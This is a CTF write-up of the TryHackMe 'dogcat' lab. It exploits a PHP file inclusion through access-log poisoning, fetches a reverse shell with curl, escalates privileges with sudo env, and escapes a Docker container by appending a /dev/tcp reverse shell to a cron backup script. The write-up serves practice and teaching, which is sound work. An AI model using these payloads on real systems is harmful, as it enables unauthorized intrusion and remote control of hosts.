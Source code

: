 ```yaml
---
title : "TryHackMe: Dogcat WriteUp"
author : Seif-Allah
description : "TryHackMe: WriteUp for the 'dogcat' room (Level: Medium)"
layout : post
category: CTF-WriteUp
tags : [THM,TryHackMe,WriteUp,dogcat,Medium,CTF]
image : /assets/images/writeups/thm/dogcat/dogcat.png
---
```

Link : [dogcat room](https://tryhackme.com/room/dogcat)

Welcome, Welcome, Welcome and welcome ! 

### Introduction 
After finishing [lfi basics room](), and learning some new lfi stuff, I chose this room to practice my new skill, and I absolutely recommend it! 

### Enumeration

- - -
```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeKBugyQF6HXEU3mbcoDHQrassdoNtJToZ9jaNj4Sj9MrWISOmr0qkxNx2sHPxz89dR0ilnjCyT3YgcI5rtcwGT9RtSwlxcol5KuDveQGO8iYDgC/tjYYC9kefS1ymnbm0I4foYZh9S+erXAaXMO2Iac6nYk8jtkS2hg+vAx+7+5i4fiaLovQSYLd1R2Mu0DLnUIP7jJ1645aqYMnXxp/bi30SpJCchHeMx7zsBJpAMfpY9SYyz4jcgCGhEygvZ0jWJ+qx76/kaujl4IMZXarWAqchYufg57Hqb7KJE216q4MUUSHou1TPhJjVqk92a9rMUU2VZHJhERfMxFHVwn3H
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBouHlbsFayrqWaldHlTkZkkyVCu3jXPO1lT3oWtx/6dINbYBv0MTdTAMgXKtg6M/CVQGfjQqFS2l2wwj/4rT0s=
|   256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfp73VYZTWg6dtrDGS/d5NoJjoc4q0Fi0Gsg3Dl+M3I
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
```
Nothing fancy here, there's a web server running on port 80, let's check it! 

![homepage](/assets/images/writeups/thm/dogcat/homepage.png)

Basically, it's a web app that choose randomly a cat or a dog image based on user choice (images are stored inside a dog and cat folders - look at the source). 

The user choice (cat | dog) are passed to the server through the *view* variable (look at the url), so what if we enter something other than dog or cat ? for example *ls*
- - -
```html
Sorry, only dogs or cats are allowed.
```
- - -
So only dogs or cats allowed ? lets try *dog;ls* ?
- - -
```html 
Warning: include(dog;ls.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 24

Warning: include(): Failed opening 'dog;ls.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```
humm ! so there's an include function running inside the */var/www/html/index.php* file that failed to open *days;ls.php* file. 

I think it's time for some [lfi](https://github.com/seifallahhomrani1/PayloadsAllTheThings/tree/master/File%20Inclusion#basic-lfi) now ! 

First things first, I used the null byte character : %00
The result was : 
- - -
```
Warning: include(): Failed opening 'dog;ls' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24
```
so we get rid of the first warning which means that :
- the program concatenate .php extension at the end of the input unless it's dog or cat.

Ok, let's *directory traversal* : 
- - -
```html
“/?view=php://filter/read=convert.base64-encode/resource=./dog/../index”
Result after decoding : 

<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
         <!-- the site checks if ext variable is set, if not it assigns it .php   -->
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```
html comment is my explanation of the code.


### LFI to RCE via controlled log file 
Like mentioned [here](https://github.com/seifallahhomrani1/PayloadsAllTheThings/tree/master/File%20Inclusion#basic-lfi), I did a request to the server (in our case Apache) and include the log file (/var/log/apache2/access.log&ext). Reading the log file, it looks like we can insert a php script inside the user agent header since it's not manipulated(10.4.14.245 - - [14/Nov/2020:17:13:34 +0000] "GET / HTTP/1.1" 200 537 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.4.14.245 -), so I inserted this code : 
- - -
```php
<?php system($_GET['cmd']);?>
```
- - -
and then started a web server on my local host to host a reverse shell file and used wget command to save it inside a temporary file to finally get a reverse shell ! 
- - -
```
/?view=./dog/../../../../../../../var/log/apache2/access.log&ext&cmd=curl http://MY-IP:80/reverse.php > /tmp/reverse.php
```
- - -
After that, I used chmod to make it executable and started a listener in my local host and running the file from the browser
BOOM!! I got the reverse shell ! 
- - -
```bash
root@kali:~/Documents/thm/startup# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.4.14.245] from (UNKNOWN) [10.10.129.131] 46518
Linux 571f0aa7aca9 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 GNU/Linux
 18:05:41 up 55 min,  0 users,  load average: 0.23, 0.11, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Spawning a tty shell using */bin/bash -i* command, and looking at the user directory we can find the 2nd flag. 
The first flag was inside the */var/www/html/* directory. (We could retrieve it by running view=flag in the url, anyway)
Now we need to escalate our privileges.
### PrivEsc
Running sudo -l command, it looks like we can *env* as root, checking [gtfobins] as always and yeah we can escalate our privileges to root by running :
*sudo env /bin/sh*, easy!
We can now retrieve the 3rd flag from root directory. 

But now !! THE FUN BEGIN 

### Breaking DOCKER LOCKER 
The 4th flag was really hard to get for me, I didn't face any of these kinda flags before but it was kinda fun to get it ! 

By looking at this [article](https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1) from the famous Vickie Lie, and the docker tag from the room cover, I check /proc/1/cgroup file to check if we are inside a docker container or not. 

So I manually enumerated the machine, looking for elements that could help me escape the container such as a script via the find / -type f -name *.sh command because nothing of the tricks found helped me, the first result is the file /opt/backups/backup.sh, hum interesting, looking at its contents : 
```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```
From what it looks like, basically it's a cronjob that backup the container, and since it's writeable, let's add a reverse shell, start a listener and wait for it to be executed.
- - -
```
echo "/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/1234 0>&1'" >> backup.sh
```
- - -
After few minutes we get a reverse shell from the parent host and we can easily get flag4.txt ! 

### Final thoughts 
This room rocks ! I absolutely recommend for all beginners like me ! 
Huge thanks to [jammy](https://tryhackme.com/p/jammy) ! 
